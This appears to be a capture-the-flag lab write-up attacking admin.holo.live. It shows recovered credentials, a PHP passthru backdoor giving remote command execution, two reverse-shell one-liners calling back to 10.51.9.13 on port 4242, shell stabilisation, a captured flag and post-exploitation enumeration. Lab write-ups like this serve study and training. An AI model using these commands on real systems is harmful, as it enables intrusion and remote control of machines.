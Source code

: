 
```
admin
```

```
DBManagerLogin!
```

So we are in 

![[Pasted image 20240813203006.png]]

And we can see php is there let's see how to get the shell from here 

So i pasted the code that i found in the source code 
```
  <!--                   //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

and found that we have RCE here

```
http://admin.holo.live/dashboard.php?cmd=whoami
```
![[Pasted image 20240813203426.png]]

let's see if we are able to get a reverse shell

So i tried to get the version of python but i don't think it's installed (i.e. check which python)
but than bash came to my mind and it returned (i.e. which bash)
```
admin.holo.live/dashboard.php?cmd=which%20bash
```
![[Pasted image 20240813203747.png]]


After so many try's this one linear working as website got stuck which is an indication we might have got a shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.51.9.13 4242 >/tmp/f
```

```
%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F10.51.9.13%2F4242 0>%261
```

![[Pasted image 20240813204209.png]]

Let's get the full shell from the dummy shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm
```

![[Pasted image 20240813204531.png]]

Let's run the linpeas's and see what we find here
```
cat user.txt
HOLO{175d7322f8fc53392a417ccde356c3fe}
```

```
hostname
e932f030b3c8
```

```
uname -a
Linux e932f030b3c8 5.4.0-1030-aws #31-Ubuntu SMP Fri Nov 13 11:40:37 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

```
ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   4632   824 pts/0    Ss   10:00   0:00 /bin/sh -c /e
root          27  0.0  0.4 373648 18708 ?        Ss   10:00   0:00 /usr/sbin/apa
www-data      30  0.0  0.3 374204 13004 ?        S    10:00   0:00 /usr/sbin/apa
www-data      31  0.0  0.1 373680  6980 ?        S    10:00   0:00 /usr/sbin/apa
www-data      32  0.0  0.3 374204 14128 ?        S    10:00   0:00 /usr/sbin/apa
www-data      33  0.0  0.2 374048 10972 ?        S    10:00   0:00 /usr/sbin/apa
www-data      34  0.0  0.1 373680  6980 ?        S    10:00   0:00 /usr/sbin/apa
mysql         75  0.0  0.0   4632  1720 ?        S    10:00   0:00 /bin/sh /usr/
mysql        429  0.1  4.6 1621092 188216 ?      Sl   10:00   0:01 /usr/sbin/mys
root         509  0.0  0.0  18512  3132 pts/0    S+   10:00   0:00 /bin/bash
www-data     516  0.0  0.1 373680  6984 ?        S    10:04   0:00 /usr/sbin/apa
www-data     517  0.0  0.0   4632   772 ?        S    10:04   0:00 sh -c rm /tmp
www-data     520  0.0  0.0   4676   744 ?        S    10:04   0:00 cat /tmp/f
www-data     521  0.0  0.0  18512  3420 ?        S    10:04   0:00 bash -i
www-data     522  0.0  0.0   6652  1892 ?        R    10:04   0:00 nc 10.51.9.13
www-data     527  0.0  0.2  36812  8532 ?        S    10:11   0:00 /usr/bin/pyth
www-data     528  0.0  0.0  18512  3396 pts/1    Ss   10:11   0:00 /bin/bash
www-data     550  0.0  0.0  34408  2800 pts/1    R+   10:28   0:00 ps aux
```

```
find / -perm -u=s -type f 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
```

```
cat /proc/1 cgroup
```

